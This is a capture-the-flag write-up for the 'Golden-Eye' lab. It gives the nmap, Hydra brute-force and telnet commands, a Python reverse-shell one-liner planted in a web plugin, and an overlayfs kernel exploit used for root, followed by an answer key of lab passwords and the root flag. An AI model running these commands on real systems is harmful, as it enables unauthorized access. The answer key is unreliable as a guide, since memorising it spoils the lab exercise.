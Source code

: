 # **Golden-Eye Writeup by Brandon Gerber**

---

## **Task 1: Intro and Enumeration**

### **1.1 Nmap Scan**

I began by scanning the target machine using `nmap` to identify open ports:

`nmap -n -v -sT -p- -T5 <IP>`




This revealed **4 open ports**.

### **1.2 Source Code Analysis**

Next, I checked the **source code of the website** and found some comments:

// contacting a user named boris // left encoded password // mentioned another person named Natalya




Based on this, I assumed "boris" was a **username**, and I found an encoded password in the comments:  
&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;

### **1.3 Decoding Password**

Using an HTML decoder, I decoded it to: **InvincibleHack3r**.  
I realized I could have just used `dcode<pw>`.

---

## **Task 2: It’s Mail Time**

### **2.1 Login via Telnet**

I tried logging in via **telnet** to the **POP3 service on port 55007**, but the credentials failed. The next hint was to use **Hydra** to crack the password:

hydra -l boris -P <path_to_password_list> <IP> -s 55007 pop3

markdown


This successfully found the password:  
**Password: secret1!**

### **2.2 Retrieving Emails**

I then logged in via telnet:

`telnet <IP> 55007`
user: boris 
pass: secret1!




After logging in, I listed and retrieved the emails using `retr <email num>`, revealing another username, **"Xenia."**

### **2.3 Cracking Xenia’s Password**

Using Hydra again, I cracked Xenia’s password:

`hydra -l Xenia -P <path_to_password_list> <IP> -s 55007 pop3`



The password was **bird**. After logging into her account, I found her new password: **RCP90rulez!**.

### **2.4 Accessing the Website**

This led me to the next hint regarding the **severnaya-station.com** website. I added it to my `/etc/hosts` file to access it:

`nano /etc/hosts`

Add the line
`<IP> severnaya-station.com`




I visited **http://severnaya-station.com/gnocertdir/** and used Xenia's credentials to log in:

user: Xenia pass: RCP90rulez!




Under **"My Profile,"** I found a message from **Dr. Doak** revealing his creds:

`hydra -l Doak -P <path_to_wordlist> <IP> -s 55007 pop3`




Password: **goat**

Using telnet again, I found his password in an email: **4England!**

---

## **Task 3: Gaining Access**

### **3.1 Logging in with Dr. Doak's Credentials**

Logging in with Dr. Doak's credentials (`dr_doak`, `4England!`), I explored his private files and discovered a file named **s3cret.txt**, which mentioned the location of an image at `/dir007key/for-007.jpg`. I downloaded the image using `wget` and extracted hidden information with `exiftool`. Inside the description field, I found a **Base64 string**:

eFdpbnRlckE50TV4IQ==




Decoded, it revealed: **xWinter1995x!**

user: admin 
pass: xWinter1995x!




---

## **Task 4: Exploitation**

### **4.1 Creating a Reverse Shell**

I created a **reverse shell** using Python:

` python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>", <Port>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh"])' `




I inserted this script into the spell check plugin on the website, then started a listener using `pwncat`:

`pwncat --listen -p 9999`




This granted me a shell on the system. The kernel version was **3.13.0-32-generic**, and I found an **overlayfs privilege escalation exploit** (https://www.exploit-db.com/exploits/37292).

### **4.2 Compiling and Executing the Exploit**

I compiled and executed the exploit:

upload exploit.c /tmp 
cd /tmp 
cc exploit.c -o exploit 
run the exploit
./exploit




This gave me **root access**. I navigated to the `/root` directory and found the final flag:

cat flag.txt




**Root flag: 568628e0d993b1973adc718237da6e93**

---

## **ANSWERS**

---

### **Task 1:**

- **How many ports are open?**  
  **Answer:** 4

- **Who needs to update their default password?**  
  **Answer:** boris

- **What's their password?**  
  **Answer:** InvincibleHack3r

---

### **Task 2:**

- **What's their new password?**  
  **Answer:** secret1!

- **What services is configured to use port 55007?**  
  **Answer:** telnet

- **What user can break Boris' codes?**  
  **Answer:** natalya

- **What user can you login as on the severnaya-station.com site?**  
  **Answer:** xenia

- **What was Doak's password?**  
  **Answer:** goat

- **What's Dr. Doak's password?**  
  **Answer:** 4England!

---

### **Task 3:**

- **What's the kernel version?**  
  **Answer:** 3.13.0-32-generic

- **What is the root flag?**  
  **Answer:** 568628e0d993b1973adc718237da6e93

